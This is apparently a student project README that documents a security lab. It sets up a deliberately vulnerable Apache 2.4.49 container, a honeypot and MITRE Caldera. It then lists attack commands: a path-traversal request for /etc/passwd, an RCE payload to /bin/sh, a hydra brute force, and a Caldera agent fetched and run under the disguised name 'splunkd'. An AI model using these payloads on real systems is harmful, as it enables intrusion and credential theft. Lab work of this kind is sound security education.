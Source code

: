 # ICS344-Project-Commands-and-codes

How we did the setup for everything in the project

 # 1-Docker:
the reason we wanted to install docker is because we needed to downgrade our apache service to something with known vulnerabilities we used the following commands to install it on the vm.

-sudo apt-get install -y docker.io

-sudo systemctl start docker & sudo systemctl enable docker

-docker –version (to make sure it is correctly installed)
 # 2-Apache 2.4.49:
 after installing docker we need to make a dockerfile with all the files and dependencies will go through the steps we did to set it up correctly
-nano DockerFile
-write in the dockerfile the following (FROM debian:latest
RUN apt-get update && \
    apt-get install -y wget build-essential libpcre3 libpcre3-dev libssl-dev libexpat1-dev && \
    wget https://archive.apache.org/dist/httpd/httpd-2.4.49.tar.gz && \
    wget https://archive.apache.org/dist/apr/apr-1.7.0.tar.gz && \
    wget https://archive.apache.org/dist/apr/apr-util-1.6.1.tar.gz && \
    tar -xzf httpd-2.4.49.tar.gz && \
    tar -xzf apr-1.7.0.tar.gz && \
    tar -xzf apr-util-1.6.1.tar.gz && \
    mv apr-1.7.0 httpd-2.4.49/srclib/apr && \
    mv apr-util-1.6.1 httpd-2.4.49/srclib/apr-util && \
    cd httpd-2.4.49 && \
    ./configure --enable-so --enable-ssl --with-mpm=event && \
    make && \
    make install

EXPOSE 80
CMD ["/usr/local/apache2/bin/httpd", "-D", "FOREGROUND"])
- after saving the file we need to build the image the containers will be using with the following command 'sudo docker build -t apache-2.4.49'
- -then use 'sudo docker run -d -p 8080:80 apache-2.4.49' to make the container with apache running on port 8080

# 3- Honeypot:
for the honeypot we picked HoneyUp which works okay with our service, but to be able to use honeyup we need to install nginx among other things to be able to fully use it and have logs to read after.

- installing nginx using the following command sudo apt install nginx -y

- using this command  sudo systemctl start nginx to make sure everything is running okay

- we need the rust toolchain which we installed using curl --proto '=https' --tlsv1.2 -sSf https://sh.rustup.rs | sh

- and we needed rustup and cargo which we installed using sudo apt install cargo && sudo apt install rustup

# 4-Attack Tools:
we needed to install some tools that we might use for attacks and we used the following command

-sudo apt install nmap metasploit-framework hydra gobuster nikto -y
# 5-Caldera:
Caldera is a necessary part to complete the project so we followed these commands to install it correctly and making sure it runs without errors.

-git clone https://github.com/mitre/caldera.git --recursive

-pip3 install -r requirements.txt

-python3 server.py --insecure –build (use --build if it is running for the first time, after the first time you can remove it and it will run okay).

- to be able to run operations in caldera we need an agent the following code we used to make an agent (server 'http: //192. 168.112.129:8888' ;
curl-s -X POST -H "file:sandcat.go" -H "platform:linux" $server/file/download › splunkd;
chmod +x splunkd;
./splunkd -server $server -group red -v)

# 6-Attacks

-we did the nmap scan on the target using (nmap --script vuln -p 8080 192.168.206.129).

-one of the vulnerabilities in apache 2.4.49 is remote code execution we used this code to attack curl -X POST "http://192.168.206.129:8080/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh" -d "echo RCE Test"

-one of the vulnerabilities in apache 2.4.49 is path traversal we used this code to attack curl http://192.168.206.129:8080/cgi-bin/.%2e/.%2e/.%2e/.%2e/etc/passwd

-one of the vulnerabilities in apache 2.4.49 is the fact that http trace is enabled we cannot really use it as an attack without having something else to use it with but we did use a command to see if it is enabled or not with curl -X TRACE http://192.168.206.129:8080 -I

-using kali tools we managed to brute force our apache server using hydra tool with the following code hydra -l admin -P /usr/share/wordlists/rockyou.txt -t 4 192.168.206.129 -s 8080 http-get / 


